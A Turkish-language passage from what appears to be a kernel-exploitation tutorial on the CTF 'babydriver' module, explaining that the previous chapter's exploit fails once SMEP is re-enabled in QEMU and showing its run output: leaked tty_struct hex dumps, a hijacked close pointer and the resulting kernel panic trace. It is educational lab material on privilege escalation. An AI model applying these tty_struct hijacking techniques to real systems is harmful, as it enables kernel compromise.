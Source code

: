 # Hedefimiz
Bu bölümdeki hedefimiz, önceki bölümdeki exploit'imizin, SMEP ile çalışmasını sağlamak olacak.

Eğer önceki bölümde, QEMU scriptinden kaldırdığımız SMEP opsiyonunu:
```bash
-cpu kvm64
```
Geri eklerseniz:
```bash
-cpu kvm64,+smep
```
Makineyi yeniden başlatıp exploit'i denediğinizde, ilginç bir panik mesajı alacaksınız:
```
/ $ ./exploit_no_smep.elf
[    4.469995] device open
[    4.479609] device open
[    4.484902] alloc done
[    4.488670] device release

0000: 0x00 0x98 0xb6 0x02 0x00 0x88 0xff 0xff 0x60 0x35
0010: 0xb2 0x02 0x00 0x88 0xff 0xff 0x00 0x00 0x00 0x00
...
0720: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0730: 0x00 0x00 0x00 0x00 0x00

0000: 0x01 0x54 0x00 0x00 0x01 0x00 0x00 0x00 0x00 0x00
0010: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x5f 0x9f 0x02
...
0720: 0xd0 0x9d 0x4d 0x81 0xff 0xff 0xff 0xff 0x00 0xa8
0730: 0x9f 0x00 0x00 0x88 0xff
obtained the tty_struct
new close: 0x4011e5
[    5.261105] unable to execute userspace code (SMEP?) (uid: 1000)
[    5.264181] BUG: unable to handle kernel paging request at 00000000004011e5
[    5.264181] IP: [<00000000004011e5>] 0x4011e5
[    5.264181] PGD 2b65067 PUD 2b80067 PMD 2b81067 PTE 3309025
[    5.264181] Oops: 0011 [#1] SMP
[    5.264181] Modules linked in: babydriver(OE)
[    5.264181] CPU: 0 PID: 89 Comm: exploit_no_smep Tainted: G           OE   4.4.72 #1
[    5.264181] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    5.264181] task: ffff880002b4b300 ti: ffff880000a10000 task.ti: ffff880000a10000
[    5.264181] RIP: 0010:[<00000000004011e5>]  [<00000000004011e5>] 0x4011e5
[    5.264181] RSP: 0018:ffff880000a13de8  EFLAGS: 00010202
[    5.264181] RAX: 00000000004011e5 RBX: ffff880002b69000 RCX: 0000000000000000
[    5.264181] RDX: 0000000000000000 RSI: ffff880002b6a300 RDI: ffff880002b69000
[    5.264181] RBP: ffff880000a13e58 R08: ffff880002b6a300 R09: 0000000000000000
[    5.264181] R10: ffff8800029ee2e8 R11: 0000000000000246 R12: ffff880002b6a300
[    5.264181] R13: ffff8800029ee2e8 R14: ffff880002b511a0 R15: ffff880002b69800
[    5.264181] FS:  0000000000408758(0063) GS:ffff880003c00000(0000) knlGS:0000000000000000
[    5.264181] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    5.264181] CR2: 00000000004011e5 CR3: 0000000002b82000 CR4: 00000000001006f0
[    5.264181] Stack:
[    5.264181]  ffffffff814d97c5 0000000000000000 ffff880002b38021 0000000000000000
[    5.264181]  0000000100000001 0000000000000000 0000000000000000 ffff880000a13e50
[    5.264181]  5bb30bd3549f472f ffff880002b6a300 0000000000000010 ffff8800029ee2e8
[    5.264181] Call Trace:
[    5.264181]  [<ffffffff814d97c5>] ? tty_release+0x105/0x580
[    5.264181]  [<ffffffff8120d2c4>] __fput+0xe4/0x220
[    5.264181]  [<ffffffff8120d43e>] ____fput+0xe/0x10
[    5.264181]  [<ffffffff8109dcf1>] task_work_run+0x81/0xa0
[    5.264181]  [<ffffffff81003242>] exit_to_usermode_loop+0xc2/0xd0
[    5.264181]  [<ffffffff81003c6e>] syscall_return_slowpath+0x4e/0x60
```